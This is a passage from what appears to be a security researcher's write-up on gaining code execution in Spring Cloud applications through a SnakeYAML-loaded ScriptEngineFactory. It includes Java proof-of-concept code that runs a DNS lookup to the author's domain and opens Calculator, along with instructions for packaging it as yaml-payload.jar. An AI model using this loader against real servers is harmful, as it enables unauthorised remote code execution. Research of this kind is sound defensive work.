 public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
 
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

​yaml-payload.jar:/META-INF/services/javax.script.ScriptEngineFactory should be just a text file containing a full reference to 'artsploit.AwesomeScriptEngineFactory', so that the ServiceLoader will know where to find the class: artsploit.AwesomeScriptEngineFactory Again, this exploitation technique requires spring cloud to be in the classpath, but in comparison to Eureka's XStream payload, it works even in the latest version. You can find the complete payload in my github project: yaml-payload.
